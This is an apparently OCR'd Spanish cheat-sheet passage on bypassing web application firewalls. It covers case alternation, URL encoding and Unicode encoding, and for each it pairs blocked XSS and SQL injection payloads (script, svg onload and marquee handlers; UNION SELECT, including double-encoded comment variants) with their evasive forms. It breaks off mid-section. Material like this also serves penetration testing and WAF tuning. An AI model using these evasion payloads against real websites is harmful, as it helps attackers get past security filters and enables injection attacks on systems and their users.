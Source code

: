 ## **Técnicas para evitar WAF:**

### **1. Técnica de alternancia de casos**

Combine caracteres en mayúsculas y minúsculas para crear cargas útiles eficientes.

**Solicitud básica:**

> <script>confirm()</script>

**Técnica omitida:**

> <ScrIpT>confirm()</sCRiPt>

**Solicitud básica:**

> SELECT * FROM * WHERE OWNER = 'NAME_OF_DB'

**Técnica omitida:**

> sELeCt * fRoM * wHerE OWNER = 'NAME_OF_DB'

**Ejemplo en URL:**

> http://example.com/index.php?page_id=-1 UnIoN SeLeCT 1,2,3,4

### **2. Técnica de codificación de URL**

> Codifique cargas útiles normales con % de codificación/codificación de URL. Puedes usar Burp Suite. Dispone de una herramienta codificadora/decodificadora.

**Bloqueado por WAF:**

> <Svg/x=">"/OnLoAD=confirm()//

**Técnica omitida:**

> %3CSvg%2Fx%3D%22%3E%22%2FOnLoAD%3Dconfirm%28%29%2F%2F

**Bloqueado por WAF:**

> UniOn(SeLeCt 1,2,3,4,5,6,7,8,9,10)

**Técnica omitida:**

> UniOn%28SeLeCt+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%29

**Ejemplo en URL:**

> https://example.com/page.php?id=1%252f%252a*/UNION%252f%252a /SELECT

### **3. Técnica Unicode**

Los caracteres ASCII en codificación Unicode nos brindan excelentes variantes para evitar WAF. Codifique toda o parte de la carga útil para obtener resultados.

**Solicitud básica:**

> <marquee onstart=prompt()>

**Ofuscado:**
